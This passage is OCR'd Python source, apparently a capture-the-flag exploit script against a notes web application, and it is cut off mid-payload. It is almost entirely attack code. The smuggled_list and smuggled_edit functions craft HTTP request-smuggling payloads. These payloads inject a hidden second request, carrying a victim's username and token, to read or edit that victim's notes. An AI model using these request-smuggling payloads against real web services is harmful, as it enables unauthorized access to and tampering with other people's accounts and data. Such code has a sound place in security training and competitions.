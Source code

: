 ```py
        self.sess.post(self.url + PATH, data=data).text
    
    def view(self, id):
        PATH = '/view.php?id=' + id

        return self.sess.get(self.url + PATH)

    def support(self, url):
        PATH = '/support.php'

        r = self.sess.post(self.url + PATH, data={'url': url, 'csrf': self.csrf})
        m = re.search(r'our agent (\w+) is taking care', r.text)

        if m is None:
            print(r.text)
            
        return m[1]

def smuggled_list(url, id, username, token):
    payload = '''{buster}
Host: notes
Connection: keep-alive
Authentication: {username} {token}


GET /view/{id} HTTP/1.1
Host: notes
foo: bar
Authentication: {username} {token}
foo: bar
'''.format(id=id, buster=secrets.token_urlsafe(6), token=token, username=username).replace('\n', '\r\n')
        
    chall = Challenge(url)
    chall.register(payload)
    resp =  chall.view('1').text
    print(resp)
    regex = r'({&quot;note.*)'
    json_str = re.findall(regex, resp, re.MULTILINE)[0].replace('&quot;', '"')
    return json.loads(json_str)['note']['notes']


def smuggled_edit(url, id, username, token, body, title):
    data = {
        'title': title,
        'body': body
    }

    json_data = json.dumps(data)
    body_length = len(json_data)

    payload = '''{buster}
Host: notes
Connection: keep-alive
Authentication: {username} {token}


POST /edit/{id} HTTP/1.1
Host: notesa
foo: bar
Authentication: {username} {token}
Content-Type: application/json
Content-Length: {body_length}
```
